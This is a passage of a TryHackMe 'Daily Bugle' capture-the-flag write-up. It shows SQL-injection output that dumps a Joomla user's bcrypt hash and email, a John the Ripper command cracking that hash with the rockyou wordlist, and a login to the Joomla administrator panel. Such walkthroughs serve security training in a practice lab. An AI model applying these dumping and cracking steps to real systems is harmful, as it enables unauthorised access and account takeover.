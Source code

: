 ```bash
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

We got some username and hashed password, lets crack it.
```bash
$ john -format=bcrypt -wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED     (jonah)
1g 0:00:03:26 DONE (2021-01-12 00:10) 0.004844g/s 227.0p/s 227.0c/s 227.0C/s sweetsmile..setsuna
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got jonah's password, it's REDACTED. Let's login to the joomla administrator.
<a href="/assets/images/tryhackme/daily-bugle/7.png"><img src="/assets/images/tryhackme/daily-bugle/7.png"></a>

Succeed!